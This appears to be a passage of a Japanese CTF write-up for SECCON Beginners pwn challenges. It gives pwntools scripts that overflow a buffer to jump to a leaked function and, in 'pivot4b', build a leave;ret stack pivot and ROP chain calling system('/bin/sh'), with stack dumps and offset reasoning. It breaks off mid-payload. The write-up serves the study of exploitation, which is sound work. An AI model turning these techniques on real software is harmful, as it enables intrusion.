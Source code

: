```python
from pwn import *

file = './chall'
elf = context.binary = ELF(file)
p = remote('pet-sound.challenges.beginners.seccon.jp', 9090)

p.recvuntil(b'at: ')
speak_flag = int(p.recvuntil(b'\n'), 16)
print(f'speak_flag: {hex(speak_flag)}')
p.recvuntil(b'A > ')
p.sendline(b'A'*40 + p64(speak_flag))
p.interactive()
```

## pivot4b
ASLRが効いている。PIEとカナリアは効いていない。  
`char message[0x30]`があり、そのアドレスがリークしている。  
また、`message[0x30]`に対して、`read(0, message, sizeof(message) + 0x10);`がある。  
さらには`system`と`pop rdi, ret`もご親切に用意されている。  

`0x42`は私の`B*8`の入力、`0x00007ffff7db86b5`が`main`が使うリターンアドレス。  
`offset = 7*8 = 56bytes`  
`overwrite_retaddr = 56+8 = 64bytes`  
```
0x7fffffffe130: 0x4242424242424242      0x00007ffff7f7850a
0x7fffffffe140: 0x00007fffffffe180      0x00007ffff7e204b1
0x7fffffffe150: 0x0000000000000000      0x00007ffff7fe49a0
0x7fffffffe160: 0x00007fffffffe200      0x00007ffff7db86b5
```

`sizeof(message) + 0x10 = 0x40 = 64bytes`より入力が64bytesまでと分かる。

問題名の通り、stack pivotingが必要で、私は`leave; ret`を2回使った。  
stack pivotingは退避されたrbpに、rspにセットしたい値を書き込むところから考える。  
次に正規のretに引き取らせたいアドレス、今回はもう一度`leave; ret`したいのでこのアドレスを設定する。  
`leave; ret`が実行されると、`mov rsp, rbp`が最初に走るため、`rsp`が先程上書きしておいたsaved-rbpの位置にある値に変わっている。  
このため、`leave; ret`を構成する命令の2つ目である、`pop rbp`が、saved-rbpの位置に書き込んでおいたアドレスから始まる(今回は`message`の先頭から始まる & `message`は攻撃者の入力バッファなので、payloadの先頭でもある)  
```python
from pwn import *

file = './chall'
elf = context.binary = ELF(file)
p = remote('pivot4b.challenges.beginners.seccon.jp', 12300)
#p = process(file)

LEAVE_RET = 0x0000000000401211
POP_RDI_RET = 0x000000000040117a
RET = 0x000000000040101a

p.recvuntil(b'message: ')
message_addr = int(p.recvuntil(b'\n'), 16)
print(f'message address: {hex(message_addr)}')

# 今回は64bytesピッタリなのでパディングが必要なかった
payload = flat(
    0x0,                # leave (pop rbp)     message+0x00-0x07
    POP_RDI_RET,        # ret                 message+0x08-0x0f
    message_addr+0x28,  # pop rdi             message+0x10-0x17
    RET,                # for movaps          message+0x18-0x1f
    elf.plt['system'],  # ret                 message+0x20-0x27
    b'/bin/sh\x00',     # <-rdi               message+0x28-0x2f
    message_addr,       # overwrite saved-rbp message+0x30-0x37
    LEAVE_RET,          # overwrite ret_addr  message+0x38-0x3f
```